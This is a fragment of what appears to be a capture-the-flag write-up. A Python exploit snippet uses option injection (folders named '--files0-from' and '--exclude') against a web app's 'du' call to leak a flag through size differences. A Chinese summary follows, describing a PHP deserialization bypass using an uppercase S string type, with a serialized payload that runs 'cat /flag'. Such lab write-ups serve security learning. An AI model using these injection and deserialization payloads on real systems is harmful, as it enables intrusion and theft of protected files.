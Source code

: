 ```python
    # create the folder `--files0-from=/tmp/vakzz_in` for option injection
    req(s2, "/?args=-p ./--files0-from=/tmp/vakzz_in&op=create")

    # create the folder `--exclude=flag?[1-9]*` for option injection
    req(s2, "/?args=./--exclude=flag?[1-9]*&op=create")

    # now `--files0-from=/tmp/vakzz_in` and `--exclude=flag?[1-9]*` are both in the names array and can be used in args

    # use stat to run `du` with our injection options, causing it to look at folders from /tmp/vakzz_in and exclude
    # anything that matches the supplied pattern: `du -sh --files0-from=/tmp/vakzz_in --exclude=flag?[1-9]*`
    resp = req(s2, "/?args=--files0-from=/tmp/vakzz_in --exclude=flag?[1-9]*&op=stat")

    # if the flag was excluded then this will return `8.0K    /flag/` otherwise `16K    /flag/`, letting us know if 
    # the flag starts with 0-9 or a-f.
    print(resp.text.split('<div class="field-row"><label>')[2].split(" ")[0])
```





## 总结

反序列化在禁止\x00和*时，我们可以利用大写S来绕过对protected,private等属性的字符检测如：

```
O:12:"L5D_ResetCMD":2:{s:7:"padding";O:11:"L5D_Command":0:{}S:10:"\00\2a\00new_cmd";s:9:"cat /flag";}
```